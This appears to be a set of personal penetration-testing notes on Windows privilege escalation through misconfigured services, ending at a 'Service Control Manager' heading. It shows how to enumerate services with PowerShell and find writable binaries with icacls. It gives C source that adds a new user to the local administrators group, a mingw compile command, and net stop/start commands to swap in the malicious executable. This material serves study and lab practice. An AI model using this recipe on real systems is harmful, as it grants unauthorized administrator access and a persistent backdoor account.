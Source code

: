 Misconfigured Windows services (like Windows version of daemons) can be exploited.

To enumerate servoces, can use GUI snap in `services.msc`, the `Get-Service` cmdlet or the `Get-CimInstance` cmdlet.

```
// Note, this command is denied to connections via netwroks logons but works with interactive logons like RDP

// Get all currently-running Windows services

PS C:\> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

OR

PS C:\> Get-WmiObject -Class Win32_Service | Select-Object Name, DisplayName, StartName
```

Can use `icacls` on paths to identify vulnerable writable files. Example malicious file to replace with can be:

```
#include <stdlib.h>

int main()
{
    int i;
    i = system("net user <USERNAME> <PASSWORD> /add");
    i = system("net localgroup administrators <USERNAME> /add");

    return 0;
}
```

and then compile with `mingw-64` tool:

```
PS C:\> x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

and finally replace service executable with malicious executable (**note:** should save the original executable somewhere else to replace with later - don't wanna leave dodgy stuff lying around).

Restart the service and boom.

```
PS C:\> net stop <SERVICENAME>
PS C:\> net start <SERVICENAME>
```

*Note: sometimes our user can't net stop / start, so will need to enumerate how to relaunch service by* `Get-CimInstance -ClassName win32_service | Select Name,StartMode | Where-Object {$_.Name -like '<NAME>'}`

### Service Control Manager (SCM)
